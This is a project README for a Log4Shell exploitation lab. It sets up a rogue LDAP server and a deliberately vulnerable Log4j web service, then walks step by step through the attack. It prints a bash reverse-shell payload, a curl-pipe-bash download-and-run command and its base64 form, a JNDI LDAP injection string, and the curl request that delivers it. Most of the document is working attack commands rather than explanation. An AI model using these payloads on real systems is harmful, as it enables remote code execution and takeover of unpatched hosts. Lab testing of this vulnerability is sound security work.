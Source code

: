 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1). Before running the Rogue LDAP Server, we should build and run the vulnerable ```loggin-log4j2``` application

### Build and run with Maven

In order to build the ```RogueLDAP``` server we will run the following commands 

```
cd RogueLDAP
mvn clean package
cd target
java -jar RogueLDAP-1.4-SNAPSHOT.jar
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the Log4Shell vulnerability using the ```RogueLDAP``` server previously described.  

### Build and run with Docker

From cli run the following command to build and run the ```logging-log4j2``` application 

```
cd logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
docker run -p 8080:8080 logging-log4j2-vuln 
```

## Setting up the Environment

The setup should be as follows 

1. run the ```RogueLDAP``` server at the attacking machine
2. run the vulnerable ```logging-log4j2``` application at the target machine
3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

4. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

5. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 


6. Now that the ```logging-log4j2``` application runs, use the ```curl``` command line tool in order send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```
